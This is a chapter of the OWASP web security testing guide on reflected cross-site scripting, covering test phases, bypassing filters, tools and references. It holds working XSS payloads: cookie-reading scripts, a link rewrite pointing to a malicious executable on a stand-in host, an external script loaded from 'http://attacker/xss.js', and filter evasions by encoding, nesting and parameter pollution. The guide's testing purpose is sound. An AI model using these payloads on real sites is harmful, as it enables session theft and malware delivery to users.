

# Testing for Reflected Cross Site Scripting

## Summary

Reflected [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) occur when an attacker injects browser executable code within a single HTTP response. The injected attack is not stored within the application itself; it is non-persistent and only impacts users who open a maliciously crafted link or third-party web page. The attack string is included as part of the crafted URI or HTTP parameters, improperly processed by the application, and returned to the victim.

Reflected XSS are the most frequent type of XSS attacks found in the wild. Reflected XSS attacks are also known as non-persistent XSS attacks and, since the attack payload is delivered and executed via a single request and response, they are also referred to as first-order or type 1 XSS.

When a web application is vulnerable to this type of attack, it will pass unvalidated input sent through requests back to the client. The common modus operandi of the attack includes a design step, in which the attacker creates and tests an offending URI, a social engineering step, in which she convinces her victims to load this URI on their browsers, and the eventual execution of the offending code using the victim's browser.

Commonly the attacker's code is written in the Javascript language, but other scripting languages are also used, e.g., ActionScript and VBScript. Attackers typically leverage these vulnerabilities to install key loggers, steal victim cookies, perform clipboard theft, and change the content of the page (e.g., download links).

One of the primary difficulties in preventing XSS vulnerabilities is proper character encoding. In some cases, the web server or the web application could not be filtering some encodings of characters, so, for example, the web application might filter out `<script>`, but might not filter `%3cscript%3e` which simply includes another encoding of tags.

## How to Test

### Black Box Testing

A black-box test will include at least three phases:

1. Detect input vectors. For each web page, the tester must determine all the web application's user-defined variables and how to input them. This includes hidden or non-obvious inputs such as HTTP parameters, POST data, hidden form field values, and predefined radio or selection values. Typically in-browser HTML editors or web proxies are used to view these hidden variables. See the example below.
2. Analyze each input vector to detect potential vulnerabilities. To detect an XSS vulnerability, the tester will typically use specially crafted input data with each input vector. Such input data is typically harmless, but trigger responses from the web browser that manifests the vulnerability. Testing data can be generated by using a web application fuzzer, an automated predefined list of known attack strings, or manually.
  Some example of such input data are the following:

    - `<script>alert(123)</script>`
    - `“><script>alert(document.cookie)</script>`

    For a comprehensive list of potential test strings, see the [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

3. For each test input attempted in the previous phase, the tester will analyze the result and determine if it represents a vulnerability that has a realistic impact on the web application's security. This requires examining the resulting web page HTML and searching for the test input. Once found, the tester identifies any special characters that were not properly encoded, replaced, or filtered out. The set of vulnerable unfiltered special characters will depend on the context of that section of HTML.

    Ideally all HTML special characters will be replaced with HTML entities. The key HTML entities to identify are:

- `>` (greater than)
- `<` (less than)
- `&` (ampersand)
- `'` (apostrophe or single quote)
- `"` (double quote)

  However, a full list of entities is defined by the HTML and XML specifications. [Wikipedia has a complete reference](http://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

  Within the context of an HTML action or JavaScript code, a different set of special characters will need to be escaped, encoded, replaced, or filtered out. These characters include:

- `\n` (new line)
- `\r` (carriage return)
- `'` (apostrophe or single quote)
- `"` (double quote)
- `\` (backslash)
- `\uXXXX` (unicode values)

  For a more complete reference, see the [Mozilla JavaScript guide](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Values,_variables,_and_literals#Using_special_characters_in_strings).

#### Example 1

For example, consider a site that has a welcome notice `Welcome %username%` and a download link.

\
*Figure 4.8.1-1: XSS Example 1*

The tester must suspect that every data entry point can result in an XSS attack. To analyze it, the tester will play with the user variable and try to trigger the vulnerability.

Let's try to click on the following link and see what happens:

`http://example.com/index.php?user=<script>alert(123)</script>`

If no sanitization is applied this will result in the following popup:

\
*Figure 4.8.1-2: XSS Example 1*

This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody's browser if he clicks on the tester's link.

#### Example 2

Let's try other piece of code (link):

```
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
```

This produces the following behavior:

\
*Figure 4.8.1-3: XSS Example 2*

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

### Bypass XSS Filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web application's sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A blacklist may not include all possible attack strings, a whitelist may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.

The [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) documents common filter evasion tests.

#### Example 3: Tag Attribute Value

Since these filters are based on a blacklist, they could not block every type of expressions. In fact, there are cases in which an XSS exploit can be carried out without the use of `<script>` tags and even without the use of characters such as `<` `>` and `/` that are commonly filtered.

For example, the web application could use the user input value to fill an attribute, as shown in the following code:

`<input type="text" name="state" value="INPUT_FROM_USER">`

Then an attacker could submit the following code:

`" onfocus="alert(document.cookie)`

#### Example 4: Different Syntax or Encoding

In some cases it is possible that signature-based filters can be simply defeated by obfuscating the attack. Typically you can do this through the insertion of unexpected variations in the syntax or in the enconding. These variations are tolerated by browsers as valid HTML when the code is returned, and yet they could also be accepted by the filter.

Following some examples:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Example 5: Bypassing Non-Recursive Filtering

Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:

`<scr<script>ipt>alert(document.cookie)</script>`

#### Example 6: Including External Script

Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

In this scenario there is a regular expression checking if `<script [anything but the character: '>'] src` is inserted. This is useful for filtering expressions like

`<script src="http://attacker/xss.js"></script>`

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the “&gt;” character in an attribute between script and src, like this:

`http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>`

This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, `http://example/`.

#### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](4.8.4_Testing_for_HTTP_Parameter_Pollution_OTG-INPVAL-004.md) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.
Regular attack:

`http://example/page.php?param=<script>[...]</script>`

Attack using HPP:

`http://example/page.php?param=<script&param=>[...]</&param=script>`

> See the [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray Box Testing

Gray Box testing is similar to Black box testing. In gray box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pen-tester.

If source code is available (White Box), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.

## Tools

- [OWASP CAL9000](https://www.owasp.org/index.php/OWASP_CAL9000_Project)
    CAL9000 is a collection of web application security testing tools that complement the feature set of current web proxies and automated scanners.
- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/)
    This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- [HackVertor](http://www.businessinfo.co.uk/labs/hackvertor/hackvertor.php)
    It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- [WebScarab](https://www.owasp.org/index.php/OWASP_WebScarab_Project)
    WebScarab is a framework for analysing applications that communicate using the HTTP and HTTPS protocols.
- [XSS-Proxy](http://xss-proxy.sourceforge.net)
    XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](http://code.google.com/p/ratproxy/)
    A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](http://portswigger.net/proxy/)
    Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
    ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.
- [OWASP Xenotix XSS Exploit Framework](https://www.owasp.org/index.php/OWASP_Xenotix_XSS_Exploit_Framework)
    OWASP Xenotix XSS Exploit Framework is an advanced Cross Site Scripting (XSS) vulnerability detection and exploitation framework. It provides Zero False Positive scan results with its unique Triple Browser Engine (Trident, WebKit, and Gecko) embedded scanner. It is claimed to have the world’s 2nd largest XSS Payloads of about 1600+ distinctive XSS Payloads for effective XSS vulnerability detection and WAF Bypass. Xenotix Scripting Engine allows you to create custom test cases and addons over the Xenotix API. It is incorporated with a feature rich Information Gathering module for target Reconnaissance. The Exploit Framework includes offensive XSS exploitation modules for Penetration Testing and Proof of Concept creation.

## References

### OWASP Resources

- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Books

- Joel Scambray, Mike Shema, Caleb Sima - “Hacking Exposed Web Applications”, Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - “The Web Application's Handbook - Discovering and Exploiting Security Flaws”, 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert “RSnake” Hansen, Petko “pdp” D. Petkov, Anton Rager, Seth Fogie - “Cross Site Scripting Attacks: XSS Exploits and Defense”, 2007, Syngress, ISBN-10: 1-59749-154-3

### Whitepapers

- [CERT - Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - The Cross Site Scripting FAQ](http://www.cgisecurity.com/articles/xss-faq.shtml)
- [G.Ollmann - HTML Code Injection and Cross-site scripting](http://www.technicalinfo.net/papers/CSS.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat](http://www.techzoom.net/publications/insecurity-iceberg/index.en)
